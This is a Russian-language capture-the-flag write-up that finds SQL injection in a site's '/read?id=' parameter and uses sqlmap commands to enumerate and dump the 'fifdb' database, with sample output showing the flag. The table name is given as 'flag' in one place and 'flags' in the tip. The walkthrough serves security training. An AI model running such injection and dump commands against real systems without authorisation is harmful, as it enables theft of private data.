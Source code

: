 # Решение

Вас встречает очень минималистичный сайт с 3 статьями. Открыв одну из них, вы попадаете на страницу `/read?id=...`

Если поменять ID, то можно найти четвертую статью или словить ошибку "Not found". Но если в параметр вставить букву или кавычку,
то мы получим другую ошибку от сервера MySQL:
```
Error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''6''' at line 1
```

Мы нашли SQL инъекцию. Это значит, что данные из параметра подставляются в SQL запрос, а раз всего лишь одна кавычка уже 
сломала все, то можно уже спокойно запускать sqlmap для скачивания всей БД.
```bash
# предположим что у вас Kali Linux или Parrot OS
sudo apt install -y sqlmap
sqlmap -u 'http://URL/read?id=1' --dbs
```

Узнаем, что БД называется `fifdb`, теперь просто скачиваем всю базу:
```bash
sqlmap -u 'http://URL/read?id=1' -D fifdb --dump
```
В выводе будет
```
Database: fifdb
Table: flag
[1 entry]
+----+-----------------------------+
| id | flag                        |
+----+-----------------------------+
| 1  | vrnctf{F1F_S3RUM_INJ3CTI0N} |
+----+-----------------------------+
```

Готово.

> Также можно почистить вывод от ненужных статей, сразу указав название таблицы
> ```bash
> sqlmap -u 'http://URL/read?id=1' -D fifdb --tables # узнаем что таблица называется flags
> sqlmap -u 'http://URL/read?id=1' -D fifdb -T flags --dump # скачиваем только её 
> ```
> Такое помогает, когда в базе много таблиц, которые вам не нужны, а метод инъекции Time-based. Это может занимать долгое время
> для скачивания базы, так что можно значительно сократить время загрузки за счет игнорирования ненужных таблиц
